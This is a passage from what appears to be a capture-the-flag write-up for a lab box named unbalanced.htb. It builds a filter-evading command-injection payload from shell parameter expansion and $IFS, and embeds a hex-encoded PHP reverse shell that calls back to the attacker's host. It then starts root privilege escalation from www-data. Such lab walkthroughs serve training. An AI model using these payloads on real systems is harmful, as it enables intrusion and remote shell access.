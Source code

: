   and now the payload looks life this: `<MAC>&&<variables>`
	
	  aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS
	  
  here `$IFS` is a default shell delimiter character which is a space.

**Third**, reverse shell code `'php -r \'$sock=fsockopen("tun0",4141);exec("/bin/sh -i <&3 >&3 2>&3");\''` in hex coded form, inside the php function - `’EXEC(HEX2BIN(“<shellcode>”));’&&`

* I use python to encode payload into hex - 

	  ❯ python2
	  Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
	  [GCC 9.3.0] on linux2
	  Type "help", "copyright", "credits" or "license" for more information.
	  >>> p = 'php -r \'$sock=fsockopen("tun0",4141);exec("/bin/sh -i <&3 >&3 2>&3");\''
	  >>> p.encode("hex").upper()
	  '706870202D72202724736F636B3D66736F636B6F70656E282231302E31302E31342E3437222C34313431293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27'

**Final payload :** `aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("<shellcode>"));'&&`

**My Payload :** `aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202D72202724736F636B3D66736F636B6F70656E282231302E31302E31342E3339222C34313431293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27"));'&&`

**Notes:** Both IPs from squid-proxy `172.31.11.3` or with ssh tunnel on `127.0.0.1:8080` give a reverse shell as `www-data`

# Root Privesc

* user `www-data` is able to read `/root` dir

	  $ id
	  uid=33(www-data) gid=33(www-data) groups=33(www-data)
	  $ cd /root
	  $ pwd
	  /root
	  $ ls -la
	  -rw-r--r-- 1 root root 113876 Sep 20  2019 ph_install.sh
	  -rw-r--r-- 1 root root    485 Apr  6  2020 pihole_config.sh

* inside `pihole_config.sh` file 

	  $ cat pihole_config.sh
	  #!/bin/bash

	  # Add domains to whitelist
	  /usr/local/bin/pihole -w unbalanced.htb
	  /usr/local/bin/pihole -w rebalanced.htb

	  # Set temperature unit to Celsius
	  /usr/local/bin/pihole -a -c
  